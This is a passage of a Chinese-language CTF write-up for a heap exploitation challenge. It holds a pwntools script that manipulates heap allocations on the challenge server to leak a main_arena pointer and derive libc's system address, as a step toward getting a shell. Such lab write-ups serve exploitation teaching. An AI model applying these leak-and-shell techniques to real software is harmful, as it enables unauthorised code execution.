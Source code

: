 撰寫腳本，印出 main_arena+1418 與 system 的位址
```python
# miniums/solve.py
from pwn import *

context.arch = 'amd64'
#context.terminal = ['tmux', 'splitw', '-h']
#r = process('./chal')
r = remote('edu-ctf.zoolab.org', 10011)

def add_user(index, name):
    r.sendlineafter(b'> ', b'1')
    r.sendlineafter(b'index\n> ', str(index).encode())
    r.sendlineafter(b'username\n> ', name)

def edit_data(index, size, data):
    r.sendlineafter(b'> ', b'2')
    r.sendlineafter(b'index\n> ', str(index).encode())
    r.sendlineafter(b'size\n> ', str(size).encode())
    r.sendline(data)

def del_user(index):
    r.sendlineafter(b'> ', b'3')
    r.sendlineafter(b'index\n> ', str(index).encode())
```
```python
add_user(0, b'0')
edit_data(0, 0x1, b'a')

add_user(1, b'1')
del_user(0)

add_user(2, b'2')
edit_data(2, 0x1, b'b')

add_user(3, b'')
edit_data(3, 0x1, b'c')

r.sendlineafter(b'> ', b'4')
r.recvuntil(b'[3] \n')
addr = bytearray(r.recvline())
addr.pop()
main_arena_1418 = u64((b'\n' + addr).ljust(8, b'\x00'))
print(hex(main_arena_1418))
system = main_arena_1418 - 0x19ae7a
print(hex(system))
```
leak 出我們要的位址後才有辦法繼續做 exploit\
這題最終的目標是要拿到 shell\
不過問題是雖然已經有了 system 的位址，那接下來要怎麼做 exploit\
這邊就剛好想到講師上課的影片有一部份是在 demo RCE\
https://youtu.be/_TYWsA8gEW0?t=10421